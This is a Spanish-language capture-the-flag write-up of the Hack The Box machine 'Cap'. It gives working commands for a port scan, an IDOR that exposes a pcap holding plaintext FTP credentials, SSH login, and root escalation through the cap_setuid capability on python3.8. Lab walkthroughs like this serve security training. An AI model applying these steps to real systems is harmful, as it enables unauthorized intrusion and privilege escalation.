 ```yaml
---
title: 'Cap'
description: ''
pubDate: 'May 12 2023'
heroImage: 'https://res.cloudinary.com/djc1umong/image/upload/v1686606205/Cap_ypdfef.webp'
slug: 'box/cap'
---
```


```powershell
$ nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.10.245 -oG puertosAbiertos
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-07 10:35 WEST
Initiating SYN Stealth Scan at 10:35
Scanning 10.10.10.245 [65535 ports]
Discovered open port 21/tcp on 10.10.10.245
Discovered open port 80/tcp on 10.10.10.245
Discovered open port 22/tcp on 10.10.10.245
Completed SYN Stealth Scan at 10:35, 13.13s elapsed (65535 total ports)
Nmap scan report for 10.10.10.245
Host is up, received user-set (0.058s latency).
Scanned at 2022-08-07 10:35 WEST for 7s
Not shown: 65335 closed tcp ports (reset)
PORT STATE SERVICE REASON
21/tcp open ftp syn-ack ttl 63
22/tcp open ssh syn-ack ttl 63
80/tcp open http syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.23 seconds
Raw packets sent: 65535 (2.884MB) | Rcvd: 65535 (2.622MB)
```

vemos un servicio <i>ftp</i> que corre por el puerto 21 podemos intentar:

```powershell
ftp 10.10.10.245
```

pero sin contraseña no hacemos mucho, ingresamos a la página y vemos lo siguiente

<img
href='https://res.cloudinary.com/djc1umong/image/upload/v1686606224/cap_main_page_e1ofvh.webp'
width={696}
height={158}
/>

cuando ingresamos a <i>Security Snapshot (5 Second Pcap + Analysis)</i> de la pestaña en la parte izquierda vemos que estamos en la URL
<i> /data/1</i> vemos rápidamente si cambiando el <i>/1</i> con el <i>/0</i> pasa algo vemos que
algunos datos en la columna value si cambian, le damos al botón de descargar

```powershell
$ file 0.pcap
0.pcap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Linux cooked v1, capture length 262144)
```

después de comprobar que si es un archivo pcap, lo analizamos con tshark

```powershell
tshark -r 0.pcap 2&gt;/dev/null
```

<img
href='https://res.cloudinary.com/djc1umong/image/upload/v1686606256/cap_tshark_e5mjpt.webp'
width={760}
height={108}
/>

ahora que tenemos un usuario y contraseña podemos intentar conectarnos con <i>fpt</i> y con ssh.

````powershell
$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:leonardo): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.```

$ ssh nathan@10.10.10.245
nathan@cap:~$ cat user.txt

````

si la máquina se llama <i>Cap</i> intentemos probar si se trata de una <i>capability </i>

```powershell
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lin/x86_64-linux-gnu/gstreamer1.0/gstreaner-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_bind_service,cap_net_admin+ep
```

si <i>python3.8</i> tiene una capability de tipo <i>SUID </i> entonces con
python cambiamos <i>setuid</i> y nos lanzamos una bash

```powershell
nathan@cap:~$ python3.8
>>> import os
>>> os.setuid(0)
root@cap:/# whoami
root
root@cap:/#
```
